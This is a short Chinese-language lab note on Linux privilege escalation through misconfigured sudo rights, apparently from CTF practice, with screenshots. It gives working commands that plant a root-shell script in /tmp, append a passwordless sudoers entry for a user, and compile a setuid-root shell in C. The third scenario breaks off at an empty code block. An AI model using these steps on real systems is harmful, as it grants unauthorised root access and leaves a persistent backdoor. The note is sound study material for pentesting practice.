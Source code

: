 # sudo -l
查看当前用户的特权指令 前提要知道用户名确切的密码
```bash
sudo -l
```
## 情景一
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22657583/1672409802506-fc3d74a5-18ff-45ce-bf56-fba6f174e2ff.png#averageHue=%2343535d&clientId=u9babaaa7-67f1-4&from=paste&height=199&id=u4f627d89&originHeight=249&originWidth=1163&originalType=binary&ratio=1&rotation=0&showTitle=false&size=142913&status=done&style=none&taskId=u12498a91-ea90-464d-b579-9e8688ca2f7&title=&width=930.4)
说明该用户不用密码就能以root身份运行`/home/victor/undefeated_victor`文件,是个好的提权脚本

1. 它说找不到 `**/tmp/challenge**`就给他创建一个
```bash
echo '#!/bin/bash' > /tmp/challenge
echo '/bin/bash' >> /tmp/challenge
chmod +x /tmp/challenge
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22657583/1672410129422-fc19824c-90f6-4858-8f43-b2227c10802e.png#averageHue=%23364d5c&clientId=u9babaaa7-67f1-4&from=paste&height=78&id=u54e9517c&originHeight=97&originWidth=505&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29211&status=done&style=none&taskId=u629309e2-a8ae-4751-8761-e8f1853ed85&title=&width=404)

2. 然后sudo执行文件试试
```bash
sudo /home/victor/undefeated_victor
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22657583/1672410249224-7b0aa12a-4f6f-46bb-ac69-bf35c988a497.png#averageHue=%233f525e&clientId=u9babaaa7-67f1-4&from=paste&height=81&id=uc580cbee&originHeight=101&originWidth=706&originalType=binary&ratio=1&rotation=0&showTitle=false&size=41246&status=done&style=none&taskId=u77d4e529-3f75-4986-9e4a-c4a681f4b09&title=&width=564.8)
拿到root权限了！！！
## 情景二
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22657583/1670828210503-dbb1b8a9-1c6e-43f2-8988-f1deb040a0af.png#averageHue=%232f3f5a&clientId=u1fbdb0a4-07ad-4&from=paste&height=155&id=ubc76ded5&originHeight=194&originWidth=1459&originalType=binary&ratio=1&rotation=0&showTitle=false&size=144495&status=done&style=none&taskId=uc83c6b98-e94d-4b9f-b3dc-69cb9d06f7f&title=&width=1167.2)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22657583/1670828157505-a665f138-7789-426f-8bde-dbb4d6d059fd.png#averageHue=%233a4765&clientId=u1fbdb0a4-07ad-4&from=paste&height=35&id=u2d7f2329&originHeight=44&originWidth=780&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26084&status=done&style=none&taskId=u9bf88e2a-46bf-4f05-9a5d-2f7a57cf286&title=&width=624)
此时如果特权指令可以改写则直接拿下！！！

1. 法一
```bash
echo 'chmod 777 /etc/sudoers && echo "maleus ALL=(ALL)NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /home/maleus/dont_even_bother
```
然后 **sudo**这个命令
```bash
sudo dont_even_bother

sudo su / sudo -s
```

2. 法二
```c
int main(void){

    setuid(0); // root 用户 id
    setgid(0); // root 用户组 id

    execl("/bin/sh", "sh", 0);
    /*
"execl" 是一个 C 库函数，它提供了一种执行程序的方式，其中可以指定程序名和命令行参数。
在上面的代码中，函数 execl 将执行程序 "/bin/sh"，并将字符串 "sh" 作为第一个命令行参数传递给该程序。
第三个参数 0 是一个特殊的值，表示该函数不需要额外的命令行参数。
*/
}
```
## 情景三
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1672908406851-7ec9b033-cba8-4ea2-a64c-bcc236331bd1.png#averageHue=%235b5d64&clientId=u2b063ea2-08e4-4&from=paste&height=134&id=ua1f2a62f&originHeight=167&originWidth=750&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26056&status=done&style=none&taskId=u0338d22b-aba7-437a-adf6-416a888c9c6&title=&width=600)
说明权限最高，`sudo`可使用所有的命令
```bash
```